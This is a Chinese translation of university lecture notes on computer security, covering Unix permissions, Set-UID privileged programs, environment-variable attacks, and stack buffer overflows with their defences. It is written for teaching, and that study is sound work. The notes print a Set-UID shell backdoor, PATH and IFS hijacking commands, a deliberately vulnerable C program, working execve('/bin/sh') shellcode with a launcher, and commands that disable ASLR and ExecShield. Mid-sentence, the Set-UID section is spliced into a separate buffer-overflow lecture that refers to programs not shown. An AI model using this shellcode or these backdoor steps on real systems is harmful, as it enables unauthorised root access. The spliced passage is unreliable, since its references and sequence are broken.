# 雪城 CIS643 644 计算机和互联网安全讲义

# 计算机与网络安全导论

## 1 概述

一个优秀的安全专业人员应该具备两个重要的技能：（1）安全意识和（2）安全原则的知识。我希望完成这门课程的学生能够同时具备这两个技能。拥有并不意味着“知道”，而是“能够应用这些技能”。

## 2 风险和威胁

- 使用计算机系统时的风险：
  - 你正在公共图书馆工作，远程登录到你的部门的UNIX服务器。你需要离开一分钟，你感到懒惰，决定不锁定计算机的屏幕。如果一个恶意人利用这个机会，你可能会遭受最严重的损害是什么？一个恶意人需要多长时间才能实现最严重的损害？
  - 你去公共实验室，并想在那里使用一台计算机远程登录到你的部门计算机或进行在线银行业务；你面临的风险是什么？
  - 你去自动取款机取钱，所在的社区很好（即没有强迫抢劫），你面临的风险是什么？

- 设置计算机系统时的风险。
  - 你想从家里访问办公室的电脑，所以你设置了办公室电脑，以便可以远程访问其桌面。面临的风险是什么？
  - 你在家里安装了一个无线接入点来建立无线网络。面临的风险是什么？
  - 你是系统管理员，将几个程序变成特权程序，这样你就不会被一些任务打扰（用户可以使用这些特权程序完成这些任务）。面临的风险是什么？

- 开发计算机系统时的风险。
  - 你的程序有几个缓冲区溢出问题，但是你在时间上面临压力，决定不修复这个错误以发布此版本的软件产品。面临的风险是什么？
  - 你的公司刚刚赢得了为政府建设电子投票系统的投标。你的系统可能面临哪些风险？
  - 你正在为一家商店开发一个在线购物网站。你将面临哪些风险？

- 安全感：能够看到和预见风险的能力。如果你不能系统地列举出示例中的风险，那么你就没有良好的安全感。我希望在这门课程结束后，你能够获得良好的安全感，并能够在使用、设置或开发计算机系统时评估你的风险。

- 从以前的课程中学到的教训：过去这门课的学生们没有足够重视培养安全感。每个学期在最终项目的演示中，我看到学生们（不仅仅是少数，而是大多数）展示了他们系统的出色功能，但是没有展示出安全感。他们花了很多时间为他们的系统实现了一个有用的功能，但是没有花一秒钟去思考该功能的安全后果（例如，我们应该加入访问控制来防止恶意用户滥用该功能以获取额外权限吗？）

### 3 防范措施

- 方法：有三道防线。
  1. 预防：本课程的重点。
     - 防止它：使其不可能
     - 阻止它：使其更困难
     - 偏转它：使其他目标更有吸引力
  2. 检测
     - 监控
     - 入侵检测
  3. 恢复
     - 恢复数据
     - 确定损害
     - 找到罪魁祸首：取证

- 预防如何工作？
  - 策略（IST课程）
  - 密码学
    - 密码学不仅仅用于加密，还可以用于实现许多与安全相关的目标，如数字现金、时间戳、安全多方计算、电子投票、电子竞标等。
    - 我们只在本课程中涵盖了一些基本的密码学知识。
  - 控制（本课程的关键组成部分）
    - 示例：确保只有具有安全许可的人可以阅读文件。
    - 硬件控制
    - 软件控制

- 预防如何无法正常工作？
  - 漏洞
  - 恶意程序：病毒，后门等
  - 控制的错误使用

- 如何实现正确的预防？
  - 安全工程原则
  - 风险意识
  - 安全编程

## 4 计算机安全的含义

当我们谈论“计算机安全”时，我们指的是解决任何与计算机相关系统的三个非常重要的方面。

- 机密性
- 完整性
- 可用性

这三个词（CIA）的含义非常广泛。对于不同的应用程序，对CIA的解释是不同的。

- 机密性：访问（阅读、查看、打印、知道等）
  - 内容：加密（密码学）
  - 数据的存在：隐写术。例如，股票调查、囚犯、间谍、水印
  - 资源隐藏：操作系统信息和配置
  - 指纹识别
  - 身份：（匿名）
- 完整性：修改（包括写入、更改、更改状态、删除和创建）。
  - 数据完整性
  - 程序完整性
  - 系统完整性
  - 身份完整性（不可否认性）
  - 来源（位置）完整性（例如网络追踪）
- 可用性。
  - 拒绝服务
- 例子：它们属于哪个类别？
  - TCP SYN洪水攻击
  - 嗅探
  - 伪造身份
  - ATM机欺骗
  - 将密码保存在明文文件中

## Unix安全概述

### 1 用户和组

- 用户
  - root: 超级用户 (uid = 0)
  - daemon: 处理网络。
  - nobody: 不拥有文件，用作非特权操作的默认用户。
    - Web浏览器可以在此模式下运行。
  - 用户需要使用密码登录。加密密码存储在/etc/shadow中。
  - 用户信息存储在/etc/passwd中，这是用于存储密码的地方（不再使用）。以下是此文件中条目的示例。

```
john:x:30000:40000:John Doe:/home/john:/usr/local/bin/tcsh
```

- 群组
  - 有时候，如果我们可以给一组用户分配权限会更方便，即我们希望基于群组分配权限。
  - 用户有一个主要群组（列在/etc/passwd中），这是与用户创建的文件相关联的群组。
  - 任何用户都可以是多个群组的成员。
  - 群组成员信息存储在 /etc/group
  - 对于使用NIS（网络信息服务）的系统，最初称为Yellow Page（YP），我们可以使用命令 ypcat获取群组信息。

```
% groups uid     （显示uid所属的群组）
```

```
% ypcat group （可以显示所有群组及其成员）
```

### 2 文件权限

- 文件权限
  - Unix中权限位的含义。
    - 所有者（u），群组（g）和其他人（o）。
    - 可读（r），可写（w）和可执行（x）。
    - 示例：-rwxrwxrwx (777)

- 目录权限
  - r: 可以列出目录内容。
  - w: 可以在目录中创建/删除文件或目录。

### 3 与安全相关的命令

- 切换用户
  - 将您的用户ID更改为xyz，su表示“替代用户”）
  % /bin/su xyz
  - 切换到root用户。这是一种常见的调用超级用户访问的方式）。一旦您进入超级用户账户，提示符将变为井号（#）。
  % /bin/su -
  - 使用超级用户权限运行命令。有时，我们只想使用超级用户权限运行命令。而不是使用su切换到root并运行命令，我们可以使用sudo命令。
  （以超级用户身份查看shadow文件）
  % sudo more /etc/shadow
  要能够使用sudo以超级用户身份运行命令，必须（由root）授予用户权限。这是通过/etc/sudoers文件完成的。
- 更改文件的所有者
  % chown wedu 文件
  - 问：我们可以允许用户将文件的所有者更改为另一个用户吗？
    - 不可以。实际上，只有root用户可以使用 chown命令。为什么？
    - 我们在学习 Set-UID之后会明白为什么。

- 更改文件的组
  - 使用 chgrp命令。
  % chgrp seed /home/seed/785
  - 问：我们可以允许用户将文件的组更改为另一个组吗？
    - 是/否。如果你想改变为组XYZ，你必须是XYZ组的成员。
    - 原因类似于 chown命令（Set-GID）。

- 其他
  % whoami (打印出当前用户名)
  % /usr/bin/id (显示uid和gid)
  % man chmod (查找chmod命令的手册)

## Set-UID特权程序

本讲座的主要重点是讨论特权程序，为什么需要它们，它们是如何工作的，以及它们存在的安全问题。特权程序是指可以给用户额外权限的程序，超出已分配给他们的权限。例如，Web服务器是特权程序，因为它允许远程用户访问服务器端资源；Set-Root-UID程序是特权程序，因为它允许用户在程序执行期间获得root权限。

在本讲座中，我们重点讨论Set-UID机制，并将其作为我们的案例研究。然而，我们在这里讨论的许多安全原则也适用于其他特权程序。

### 1 Set-UID机制的工作原理

- 动机
  - 你希望其他人能够在你的文件中搜索一些单词，但你不希望他们能够读取该文件。你如何实现这一点？
  - 用户的密码存储在/etc/shadow中，对普通用户既不可读也不可写。然而，passwd程序允许用户更改他们的密码。也就是说，当用户运行passwd时，他们可以突然修改/etc/shadow。此外，用户只能修改/etc/shadow中的一个条目，而不能修改其他人的条目。这是如何实现的？

- Set-UID程序
  - 有效UID和真实UID的概念。
  - 对于非Set-UID程序，有效UID和真实UID是相同的。
  - 对于Set-UID程序，有效UID是程序的所有者，而真实UID是程序的用户。

- 有效用户UID和真实用户UID
  - 登录时，登录进程的真实用户ID、有效用户ID和保存的用户ID被设置为负责创建进程的用户的登录ID。对于真实、有效和保存的组ID也是如此；它们被设置为负责创建进程的用户的组ID。
  - 当一个进程调用exec函数族中的一个函数来执行一个文件（程序）时，与进程关联的用户和/或组标识符可以发生变化。如果执行的文件是一个Set-UID文件，进程的有效用户ID和保存的用户ID将被设置为执行文件的所有者。如果执行的文件是一个设置了组ID的文件，则进程的有效组ID和保存的组ID将设置为执行的文件的组。如果执行的文件不是设置了用户ID或组ID的文件，则不会更改有效用户ID、保存的用户ID、有效组ID和保存的组ID。
  - 访问控制是基于有效用户ID和组ID的。

- 为什么passwd、chsh和su程序需要成为Set-UID程序？
  - Windows NT/2000中有Set-UID程序吗？如果没有，那在Windows中如何解决同样的问题？
  - Windows没有Set-UID的概念。 使用不同的机制来实现特权功能。 开发人员将特权程序编写为服务，用户使用本地过程调用将命令行参数发送给服务。
  - 一个服务可以自动或按需启动。
  - 每个服务都有一个安全描述符，指定哪些用户可以启动、停止和配置该服务。
  - 服务通常在本地系统帐户下运行。

- 如何打开Set-UID位？
  % chmod 4755 文件   --> -rwsr-xr-x

- Set-UID在Minix中是如何实现的？

```
/* 这是每个进程的信息 */
EXTERN struct fproc {
    uid_t fp_realuid;    /* 真实用户ID */
    uid_t fp_effuid;    /* 有效用户ID */
    gid_t fp_realgid;    /* 真实组ID */
    gid_t fp_effgid;    /* 有效组ID */
    ...
}
```

- Set-UID机制的恶意使用：
  - 攻击者在你的帐户中有10秒钟的时间。 他能够植入后门，以便以后再次进入你的帐户吗？
  % cp /bin/sh /tmp
  % chmod 4777 /tmp/sh
  通过上述操作，攻击者创建了一个 Set-UID shell程序，并将你设置为该程序的所有者。 因此，当攻击者稍后运行该shell程序时，它将以你的权限运行。

- 问题：
  - 普通用户能否调试Set-Root-UID程序？
  - 普通用户能否使用 chown命令将文件的所有权更改为任意用户？

### 2 Set-UID程序的两个漏洞

#### 2.1 隐藏输入：环境变量

特权程序必须对所有输入进行合理性检查。 输入验证实际上是特权程序必须进行的访问控制的一部分，以确保程序的安全性。 许多安全问题是由于输入验证中的错误导致的。

如果程序中的输入是明确的，程序员可能会记得进行输入验证；如果输入是隐式的，可能会忘记进行输入验证，因为程序员可能不知道存在这样的输入。环境变量就是这样一种输入。

每个UNIX进程都在特定的环境中运行。一个环境由一张环境变量表组成，每个变量都有一个赋值。一些程序在内部使用这些环境变量；shell程序就是这些程序的例子。换句话说，一些环境变量的值可以影响shell程序的行为。

由于环境变量由用户控制，如果一个程序依赖于这些变量，用户可以通过改变一些环境变量的值来间接影响这个程序的行为。因此，了解特权程序是否依赖于任何环境变量的值非常重要。程序受环境变量影响的一种方式是在程序中显式地使用环境变量的值。在C语言中，程序可以使用getenv()来访问环境变量的值。然而，有很多情况下程序会隐式地使用环境变量；这就是我们在Set-UID程序中看到的许多漏洞所在。我们将在本节中介绍几个例子。

- PATH环境变量
  - 在shell中运行命令时，shell会使用PATH环境变量来搜索命令，该变量包含一个目录列表。shell程序会按照目录列表的顺序进行搜索（与它们在PATH环境变量中的顺序相同）。第一个与命令名称匹配的程序将被执行。
  - 以下情况会发生什么？请注意，system (const char *cmd) 库函数首先调用/bin/sh程序，然后让shell程序执行cmd。
    `system("mail");`
  - 攻击者可以将PATH更改为以下内容，并导致当前目录中的“mail”被执行。
    `PATH=".:$PATH"; export PATH`
  - 假设在我们的超人类比中，如果超人的指令是“向左转”（坏人在左边，好人在右边，你应该去攻击坏人）。如果攻击者确切地知道何时何地执行这个向左转的指令，他们可以进行类似上面的攻击，因为“左边”是一个相对方向，而不是绝对方向。如果事先，攻击者在你应该向左转的地方放置了一个旋转装置，并在你踩上它时将你旋转180度，那么向“左边”实际上就是转向了好人所在的方向。如果你按照指令行动，最终会攻击好人。

- IFS环境变量
  - IFS变量确定要解释为空格的字符。它代表内部字段分隔符。假设我们将其设置为包括正斜杠字符：
  IFS="/ ";
  导出IFS PATH=".:$PATH"; 导出PATH
  - 现在调用任何使用Bourne shell中的绝对路径的程序（例如system()）。现在解释为以下内容，将尝试在用户的当前目录中执行名为bin的命令。
    `system("/bin/mail root"); ---> system(" bin mail root");`
  - IFS漏洞现在在shell中基本上被禁止：调用的新shell进程将不会继承IFS变量。
  - 假设在超人的故事中，超人知道使用“向左转”指令的风险，所以他将其改为“向北转”，这是一个绝对方向。这仍然存在漏洞，因为“北”是由磁场决定的，不幸的是，磁场可以被攻击者放置在附近的磁铁干扰。

- LD_LIBRARY_PATH环境变量
  - 在 Linux中，除非在编译过程中显式指定 -static选项，否则所有的Linux程序都是不完整的，需要在运行时进一步链接到动态链接库。动态链接器/加载器ld.so/ld-linux.so加载程序所需的共享库，准备程序运行，然后运行程序。您可以使用以下命令查看程序依赖的共享库：
    `% ldd /bin/ls`
  - LD_LIBRARY_PATH是由动态链接器/加载器（ld.so和ld-linux.so）使用的环境变量。它包含了链接器/加载器在搜索共享库时要查找的目录列表。可以列出多个目录，用冒号（:）分隔。此列表将被添加到给定可执行文件的已编译加载器路径的现有列表以及任何系统默认的加载器路径之前。
  - 几乎每个 Unix程序都依赖于 libc.so，几乎每个Windows程序都依赖于DLL。如果这些库可以被恶意副本替换，当调用这些库中的函数时，恶意代码可以被调用。
  - 由于LD_LIBRARY_PATH可以被用户重置，攻击者可以修改这个变量，并强制库加载器在攻击者的目录中搜索库文件，从而加载攻击者的恶意库。
    `% setenv LD_LIBRARY_PATH .:$LD_LIBRARY_PATH`
  - 为了确保 Set-UID程序不受LD_LIBRARY_PATH 环境变量的操纵，运行时链接器/加载器（ld.so）会忽略这个环境变量 如果程序是一个 Set-UID程序的话。
  - 安全应用程序也可以与可信库进行静态链接以避免这种情况。
  - 在Windows机器上，加载DLL时，通常会先在当前目录中搜索DLL然后再在系统目录中搜索。如果你点击一个Microsoft Word文档来启动Office，那个文档所在的目录会首先被搜索以寻找DLL。

- LD_PRELOAD环境变量
  - 许多 Unix系统允许你通过设置环境变量 LD_PRELOAD来 “预加载” 共享库。 这些用户指定的库将在所有其他库之前加载。 这可以用来有选择地覆盖其他库中的函数。 例如，如果你已经构建了一个库，你可以使用以下命令预加载它：
  % export LD_PRELOAD=./libmylib.so.1.0.1
  如果libmylib.so.1.0.1包含一个名为 sleep的函数，它是一个标准的 libc函数，当程序被执行并调用 sleep时，将会调用libmylib.so.1.0.1中的函数。
  - 下面是一个覆盖 libc中的 sleep()函数的程序：
  ```
  #include <stdio.h>
  void sleep (int s)
  {
      printf("我不在睡觉！");}
  ```
  我们可以使用以下命令编译该程序（假设上面的程序名为 a.c）：
  ```
  % gcc -fPIC -g -c a.c
  % gcc -shared -o libmylib.so.1.0.1 a.o -lc
  ```
  现在，我们运行以下程序：
  ```
  int main()
  {
      sleep(1);
      return 0;
  }
  ```
  如果环境变量LD_PRELOAD设置为libmylib.so.1.0.1，标准的 libc中的 sleep()将不会被调用；相反，我们库中的 sleep()函数将被调用，并打印出“我不在睡觉！”。
  - 为了确保 Set-UID程序不受LD_PRELOAD环境变量的操控，运行时链接器/装载器（ld.so）会忽略该环境变量，除非程序是一个 Set-UID根程序，而且真实的UID也是零。

#### 2.2 调用其他程序

当特权程序调用其他程序时，必须注意是否会调用到意外的程序。 我们知道环境变量是我们应该关注的地方；还有其他地方也需要我们关注。

- 如果一个 Set-UID程序执行以下操作，可能会出现哪些潜在问题?## 2.2 一个易受攻击的程序

现在，让我们看一个更复杂的程序。与之前的程序不同，用于溢出返回地址的字符串不是静态字符串；实际上是由用户提供的。换句话说，用户可以决定在这个字符串中包含什么。

- **返回地址**：函数返回后要执行的地址。
  - 在进入函数之前，程序需要记住从函数返回后要返回的位置。即需要记住返回地址。
  - 返回地址是函数调用后紧接着的指令的地址。
  - 返回地址将被存储在堆栈上。在Intel 80x86中，指令`call func`将将紧随`call`语句的下一条指令的地址推入堆栈（即返回地址区域），然后跳转到函数`func()`的代码。

- **帧指针（FP）**：用于引用局部变量和函数参数。此指针存储在寄存器中（例如，在Intel 80x86中，它是`ebp`寄存器）。在下文中，我们使用`$FP`表示`FP`寄存器的值。
  - `variable_a`将被称为 (`$FP-16`)。
  - `buffer`将被称为 (`$FP-12`)。
  - `str`将被称为 (`$FP+8`)。

- **缓冲区溢出问题**：上述程序存在缓冲区溢出问题。
  - 函数`strcpy(buffer, str)`将`str`的内容复制到`buffer[]`中。
  - 指向的字符串`str` has超过12个字符，而`buffer[]`的大小只有12个。
  - 函数`strcpy()`不检查`buffer[]`的边界是否已达到。只有在遇到字符串结束字符'\0'时才停止。
  - 因此，`buffer[]`上方的内存内容将被`str`末尾的字符覆盖。

```c
/* stack.c */

/* 这个程序存在缓冲区溢出漏洞。 */
/* 我们的任务是利用这个漏洞 */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int func (char *str)
{
    char buffer[12];

    /* 以下语句存在缓冲区溢出问题 */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    func (str);
    printf("正常返回");
    return 1;
}
```

很容易看出上述程序存在缓冲区溢出问题。该程序首先从名为“badfile”的文件中读取输入，然后将此输入传递给函数中的另一个缓冲区 bof()。原始输入的最大长度可以达到517字节，但 bof() 中的缓冲区只有12字节长。由于 strcpy() 不检查边界，将发生缓冲区溢出。如果此程序作为设置为root用户ID的程序运行，普通用户可以利用此缓冲区溢出漏洞并接管root权限。

#### 2.3 利用缓冲区溢出漏洞

要充分利用堆栈缓冲区溢出漏洞，我们需要解决几个具有挑战性的问题。

- **注入恶意代码**：我们需要能够将恶意代码注入到目标进程的内存中。如果我们能够控制目标程序缓冲区的内容，就可以实现这一点。例如，在上面的例子中，程序从文件中获取输入。我们可以将恶意代码存储在该文件中，并将其读入目标程序的内存中。
- **跳转到恶意代码**：如果目标程序已经将恶意代码加载到内存中，攻击者可以通过跳转到恶意代码的起始点来控制程序。
- **编写恶意代码**：编写恶意代码并不是一件简单的事情。我们将展示如何编写一种特殊类型的恶意代码，即shellcode。

#### 2.4 注入恶意代码

通过程序中的缓冲区溢出漏洞，我们可以轻松地将恶意代码注入到正在运行的程序的内存中。让我们假设恶意代码已经编写好了（我们将在后面讨论如何编写恶意代码）。在上述易受攻击的程序中，程序从文件"badfile"中读取内容，并将内容复制到缓冲区中。因此，我们可以简单地将恶意代码（以二进制形式）存储在"badfile"中，易受攻击的程序将把恶意代码复制到堆栈上的缓冲区中（它会溢出缓冲区）。

## 2.5 跳转到恶意代码



- 为了跳转到我们注入到目标程序堆栈中的恶意代码，我们需要知道代码的绝对地址。如果我们事先知道地址，在溢出缓冲区时，我们可以使用该地址来覆盖保存返回地址的内存。因此，当函数返回时，它将返回到我们的恶意代码。
- 挑战在于找到恶意代码的起始位置。
- 如果目标程序是一个 Set-UID程序，你可以复制该程序，并以自己的权限运行它；这样你就可以调试该程序（注意，你不能调试一个 Set-UID程序）。在调试器中，你可以找出 `buffer[]` 的地址，从而计算出恶意代码的起始点。当你运行 Set-UID副本而不是你自己的副本时，`buffer[]` 的地址可能会略有不同，但应该非常接近。你可以尝试几个值。
- 如果目标程序在远程运行，你可能无法依赖调试器来找到地址。然而，你总是可以猜测。以下事实使得猜测成为一个相当可行的方法：
  - 栈通常从相同的地址开始。
  - 栈通常不是很深：大多数程序在任何时候都不会将超过几百或几千字节推入栈中。
  - 因此，我们需要猜测的地址范围实际上相当小。
- **提高成功率**：为了提高成功的机会，我们可以在恶意代码的开头添加许多NOP操作。NOP是一条什么都不做的特殊指令，只是前进到下一条指令。因此，只要猜测的地址指向其中之一的NOP，攻击就会成功。 有了NOP，猜测恶意代码的正确入口点的机会得到了显著提高。

#### 2.6 恶意代码：Shellcode

在之前的讨论中，我们假设恶意代码已经存在。 在本小节中，我们讨论如何编写这样的恶意代码。

如果我们可以要求特权程序运行我们的代码，我们希望它运行什么代码？ 我们希望它运行的最强大的代码是调用一个shell，这样我们可以在shell中运行任何命令。 一个唯一目标是启动shell的程序被称为shellcode。 为了学习如何编写shellcode，让我们看一下以下的C程序:

```c
#include <stdio.h>

int main() {
    char *name[2];

    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

在将上述程序编译成二进制代码之后，我们能直接将二进制代码作为我们的缓冲区溢出攻击中的shellcode使用吗？ 事情并不那么简单。 如果我们直接使用上述代码，会有几个问题:

- 首先，要调用系统调用 execve()，我们需要知道字符串“/bin/sh”的地址。如何存储这个字符串以及如何推导出这个字符串的位置都不是简单的问题。
- 其次，代码中有几个NULL（即0）。这会导致 strcpy停止执行。如果漏洞是由 strcpy引起的，我们将会由问题。

为了解决第一个问题，我们可以将字符串“/bin/sh”推入栈中，然后使用栈指针esp来获取字符串的位置。 为了解决第二个问题，我们可以将包含0的指令转换为不包含0的其他指令。例如，要将0存储到一个寄存器中，我们可以使用XOR操作，而不是直接将0赋值给该寄存器。 以下是一个汇编代码中的shellcode示例:

```assembly
第1行: xorl    %eax,%eax
第2行: pushl   %eax                # 将0推入堆栈（字符串结尾）
第3行: pushl   $0x68732f2f         # 将“//sh”推入堆栈
第4行: pushl   $0x6e69622f         # 将“/bin”推入堆栈
第5行: movl    %esp,%ebx           # %ebx = name[0]
第6行: pushl   %eax                # name[1]
第7行: pushl   %ebx                # name[0]
第8行: movl    %esp,%ecx           # %ecx = name
第9行: cdq                       # %edx = 0
```第10行: movb	$0x0b,%al
第11行: int	$0x80		# 调用execve(name[0], name, 0)

这个shellcode中有几个值得一提的地方:

- 首先，第三条指令将“//sh”而不是“/sh”推入堆栈。这是因为我们需要一个32位的数字，在这里“/sh”只有24位。 幸运的是，“//”等同于“/”，所以我们可以用双斜杠符号来解决。
- 其次，在调用 execve() 系统调用之前，我们需要将 name[0] (字符串的地址)、name (数组的地址) 和 NULL 存储到 %ebx、 %ecx 和 %edx 寄存器中，分别。
  - 第5行将 name[0] 存储到 %ebx；
  - 第8行将 name 存储到 %ecx；
  - 第9行将 %edx 设置为零。 还有其他将 %edx 设置为零的方法 (例如，xorl %edx,%edx) ；这里使用的方法 (cdq) 只是一条更短的指令：它将EAX寄存器中的值 (此时为0) 的符号 (第31位) 复制到EDX寄存器的每个位位置，基本上将 %edx 设置为0。
- 第三，当我们将%al设置为11，并执行“int $0x80”时，系统调用execve()被调用。

如果我们将上述shellcode转换为二进制代码，并将其存储在一个数组中，我们可以从C程序中调用它:

```
#include <stdlib.h>
#include <stdio.h>

const char code[] =
	"\x31\xc0"         /* 第1行: xorl    %eax,%eax          */
	"\x50"             /* 第2行: pushl   %eax               */
	"\x68""//sh"       /* 第3行: pushl   $0x68732f2f         */
	"\x68""/bin"       /* 第4行: pushl   $0x6e69622f         */
	"\x89\xe3"         /* 第5行: movl    %esp,%ebx           */
	"\x50"             /* 第6行: pushl   %eax               */
	"\x53"             /* 第7行: pushl   %ebx               */
	"\x89\xe1"         /* 第8行: movl    %esp,%ecx           */
	"\x99"             /* 第9行: cdq                         */
	"\xb0\x0b"         /* 第10行: movb   $0x0b,%al           */
	"\xcd\x80"         /* 第11行: int    $0x80               */
;

int main(int argc, char **argv)
{
    char buf[sizeof(code)];
    strcpy(buf, code);
    ((void(*)())buf)();
}
```

上述main函数中的语句((void(*)())buf)()将调用一个shell，因为shellcode被执行。

### 3 防范措施

#### 3.1 应用安全工程原则

- 使用强类型语言，例如Java、C#等。使用这些语言可以检测到缓冲区溢出。
- 使用安全的库函数。
  - 可能存在缓冲区溢出问题的函数： gets, strcpy, strcat, sprintf, scanf等。
  - 这些函数更安全： fgets, strncpy, strncat和 snprintf。

#### 3.2 系统化代码修改

- StackShield: 将控制（返回地址）与数据分离。
  - 这是GNU C编译器的扩展，用于保护返回地址。
  - 当调用函数时，StackShield将返回地址复制到一个不可溢出的区域。
  - 从函数返回时，返回地址被存储。因此，即使堆栈上的返回地址被修改，也没有影响，因为在跳回之前，原始的返回地址将被复制回来。
- StackGuard: 标记缓冲区的边界。
  - 观察：为了覆盖返回地址，需要先覆盖返回地址前面的内存。换句话说，攻击者很难只修改返回地址而不覆盖返回地址前面的堆栈内存。
  - 每次调用函数时，可以在返回地址旁边放置一个canary word。
  - 如果函数返回时canary word已被修改，则对溢出缓冲区进行了某种尝试。
  - StackGuard也内置在GNU C编译器中。
  - 通过以下程序，我们可以了解StackGuard的工作原理（我们模拟编译器，并手动向函数中添加保护代码）。为了简单起见，在下面的示例中，我们只使用一个整数作为校验码；这样的保护不够强大。我们可以使用多个整数作为校验码。

```
/* 这个程序存在缓冲区溢出漏洞。 */
/* 但是，它受到StackGuard的保护 */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int func (char *str)
{
int canaryWord = secret;
char buffer[12];

/* 以下语句存在缓冲区溢出问题 */
strcpy(buffer, str);

if (canaryWord == secret) // 返回地址未被修改
    return 1;
else // 返回地址可能被修改
    { ... 错误处理 ... }
}

static int secret; // 一个全局变量

int main(int argc, char **argv)
{
    // getRandomNumber将返回一个随机数
    secret = getRandomNumber();

    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    func(str);
    printf("正常返回");return 1;}
```

#### 3.3 操作系统的方法

- 地址空间随机化：猜测恶意代码的地址是缓冲区溢出攻击的关键步骤之一。如果我们能够使恶意代码的地址难以预测，攻击就会更加困难。一些Linux发行版已经使用地址空间随机化来随机化堆和栈的起始地址。这使得猜测确切地址变得困难。以下命令（只能由root用户运行）用于启用或禁用地址空间随机化。

```
# sysctl -w kernel.randomize_va_space=2 // 启用随机化
# sysctl -w kernel.randomize_va_space=0 // 禁用随机化
```

不幸的是，在32位机器上，即使地址被随机化，熵对抗随机猜测的能力仍然不够大。实际上，如果你尝试多次，成功的机会相当高。我们的经验表明，在一台2GHz的Intel机器上，几分钟的尝试就足以成功。

- 非可执行堆栈：从攻击中，我们可以观察到攻击者将恶意代码放入堆栈中，并跳转到它。由于堆栈是用于存储数据而不是代码的地方，我们可以配置堆栈为非可执行，从而防止恶意代码被执行。
这种保护方案被称为 ExecShield。几个 Linux 发行版已经实施了这种保护机制。ExecShield 实质上禁止执行存储在堆栈中的任何代码。以下命令（只能由root用户运行）用于启用或禁用ExecShield。

```
# sysctl -w kernel.exec-shield=1 // 启用ExecShield
# sysctl -w kernel.exec-shield=0 // 禁用ExecShield
```

在下一节中，我们可以看到这种保护方案并不能解决缓冲区溢出问题，因为另一种类型的攻击，称为Return-to-libc攻击，不需要堆栈可执行。

### 4 非可执行堆栈和返回到libc攻击

为了利用基于堆栈的缓冲区溢出漏洞，攻击者需要将一段代码注入到用户堆栈中，然后从堆栈中执行该代码。如果我们可以使用于堆栈的内存段不可执行，即使代码被注入到堆栈中，代码也无法执行。这样，我们就可以防止缓冲区溢出攻击。从技术上讲，这很容易实现，因为现代CPU架构（如Intel 386）允许操作系统将一块内存转换为不可执行内存。然而，事情并不那么简单：许多操作系统，如 Linux，会将代码保存到堆栈中，并且需要堆栈可执行。例如，在 Linux 中，为了处理信号，会在用户堆栈上放置一小段代码；在处理信号时，将执行该序列。

新版本的 Linux 已经将数据堆栈改为仅用于数据。因此，堆栈可以配置为非可执行。在 Fedora Linux 中，我们可以运行以下命令使堆栈不可执行：

```
# /sbin/sysctl -w kernel.exec-shield=1
```

不幸的是，使堆栈不可执行不能完全防止缓冲区溢出攻击。这使得从堆栈中运行恶意代码变得不可行，但是还有其他方法可以利用缓冲区溢出漏洞，而无需从堆栈中运行任何代码。Return-to-libc攻击就是这样一种攻击。

为了理解这种新的攻击方式，让我们回顾一下从堆栈中运行恶意shellcode的主要目的。我们知道它是为了调用一个shell。问题是我们是否可以在不使用注入代码的情况下调用一个shell。实际上是可行的：我们可以使用操作系统本身的代码来调用一个shell。
更具体地说，我们可以使用操作系统的库函数来实现我们的目标。在类Unix的操作系统中，名为 libc 的共享库提供了UNIX风格系统上的C运行时。这个库对大多数C程序来说是必不可少的，因为它定义了“系统调用”和其他基本功能，如 open、malloc、printf、system等。库 libc 的代码已经作为共享运行时库加载到内存中，并且可以被所有应用程序访问。

函数 system 是 libc 中的一个函数。如果我们能够使用参数“/bin/sh”调用这个函数，我们就可以调用一个shell。这就是Return-to-libc攻击的基本思想。Return-to-libc攻击的第一部分与使用shellcode的攻击类似，即溢出缓冲区并修改栈上的返回地址。第二部分则不同。与shellcode方法不同，返回地址不指向任何注入的代码，而是指向 libc 中函数 system 的入口点。如果我们正确地执行，我们可以强制目标程序运行system("/bin/sh")，这基本上启动一个shell。

挑战。要成功进行返回到libc攻击，我们需要克服以下挑战：

- 如何找到函数 system的位置？
- 如何找到字符串 "/bin/sh"的地址？
- 如何将字符串 "/bin/sh"的地址传递给 system函数？

### 4.1 找到 system函数的位置。

